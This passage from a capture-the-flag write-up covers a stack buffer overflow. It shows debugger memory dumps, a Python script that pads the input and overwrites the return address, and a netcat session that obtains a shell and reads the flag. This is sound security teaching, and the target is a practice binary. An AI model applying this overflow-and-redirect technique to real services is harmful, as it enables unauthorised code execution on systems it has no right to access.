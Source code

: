 ~~~text

Before:
gef➤  x/64wx 0x7fffffffdde0
0x7fffffffdde0:	0xffffde50	0x00007fff	0xffffe239	0x00007fff
0x7fffffffddf0:	0x00000001	0x00000000	0x00400995	0x00000000
0x7fffffffde00:	0xf7fabfc8	0x00007fff	0x00400950	0x00000000
0x7fffffffde10:	0x00000000	0x00000000	0x00400730	0x00000000
0x7fffffffde20:	0xffffdf20	0x00007fff	0x00000000	0x00000000
0x7fffffffde30:	0x00000000	0x00000000	0xf7de20b3	0x00007fff
0x7fffffffde40:	0x00000071	0x00000000	0xffffdf28	0x00007fff
0x7fffffffde50:	0xf7fa3618	0x00000001	0x004008d1	0x00000000
0x7fffffffde60:	0x00400950	0x00000000	0xcf147e84	0x21958ad1
0x7fffffffde70:	0x00400730	0x00000000	0xffffdf20	0x00007fff

After: 
gef➤  x/64wx 0x7fffffffdde0
0x7fffffffdde0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffddf0:	0x41414141	0x41414141	0x41414141	0x00000041
0x7fffffffde00:	0xf7fabfc8	0x00007fff	0x00400950	0x00000000
0x7fffffffde10:	0x00000000	0x00000000	0x00400730	0x00000000
0x7fffffffde20:	0xffffdf20	0x00007fff	0x00000000	0x00000000
0x7fffffffde30:	0x00000000	0x00000000	0xf7de20b3	0x00007fff
0x7fffffffde40:	0x00000071	0x00000000	0xffffdf28	0x00007fff
0x7fffffffde50:	0xf7fa3618	0x00000001	0x004008d1	0x00000000
0x7fffffffde60:	0x00400950	0x00000000	0xcf147e84	0x21958ad1
0x7fffffffde70:	0x00400730	0x00000000	0xffffdf20	0x00007fff
0x7fffffffde80:	0x00000000	0x00000000	0x00000000	0x000000

Location of return address:
gef➤  x/64w $rsp
0x7fffffffde38:	0xf7de20b3	0x00007fff	0x00000071	0x00000000
~~~

From this, we can create a simple Python script to craft our exploit input:

~~~py
import struct
import sys

padding = b'A'*(22*4)
#Address to vuln() function
ret_addr_1 = struct.pack("I",0x400817)
ret_addr_2 = struct.pack("I",0x00000000)

out = padding+ret_addr_1+ret_addr_2

sys.stdout.buffer.write(out)
~~~

After verifying that it works locally, we can send it to the server using and cat out the flag using the shell we get:

~~~console
$ (python3 exp.py; cat) |  nc powny.ctf.fifthdoma.in 13380
Try to overflow: ls
Buffer content: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
ls
flag.txt
run.sh
vuln.elf
xinetd
cat flag.txt
flag_{IIYEM53BOJWXK4}
~~~
